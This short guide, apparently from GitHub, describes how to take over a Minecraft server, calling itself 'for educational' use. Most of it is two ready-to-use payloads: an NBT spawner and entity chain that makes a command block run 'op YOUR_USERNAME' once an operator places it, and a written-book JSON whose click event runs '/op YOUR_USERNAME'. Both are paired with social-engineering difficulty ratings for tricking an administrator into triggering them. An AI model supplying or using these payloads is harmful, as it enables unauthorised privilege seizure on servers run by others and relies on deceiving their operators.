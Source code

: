 # Server Takeover
This guide will show you exploits, methods, and social engineering tactics to take over a Minecraft server *for educational preproduces*

_______________
# Methods

## Written NBT (Ran by OP / Sys Admin)
*Please replace `YOUR_USERNAME` with your Minecraft IGN*

Villager -> OP, requires: `CREATIVE` + `Command Blocks Enabled`, SE Dif: Easy
```json
{EntityTag:{id:"minecraft:falling_block",BlockState:{Name:"minecraft:spawner"},TileEntityData:{SpawnCount:20,SpawnRange:10,Delay:1,MinSpawnDelay:100,MaxSpawnDelay:100,SpawnData:{id:"minecraft:villager",NoAI:1b,Health:1f,Passengers:[{id:"minecraft:falling_block",BlockState:{Name:"minecraft:redstone_block"},Time:1,Passengers:[{id:"minecraft:fox",NoAI:1b,Health:1f,Passengers:[{id:"minecraft:falling_block",BlockState:{Name:"minecraft:activator_rail"},Time:1,Passengers:[{id:"minecraft:command_block_minecart",Command:"execute as @e run op YOUR_USERNAME"}]}],ActiveEffects:[{Id:20b,Amplifier:4b,Duration:1000}]}]}],ActiveEffects:[{Id:20b,Amplifier:4b,Duration:1000}]}},Time:1}}
```
______________
Written Book -> OP, requires: `CREATIVE`, SE Dif: Medium
```json
{
    "text": "Flip the page", 
    "clickEvent": {
       "action": "run_command",
       "value": "/op YOUR_USERNAME"
    }
}
```
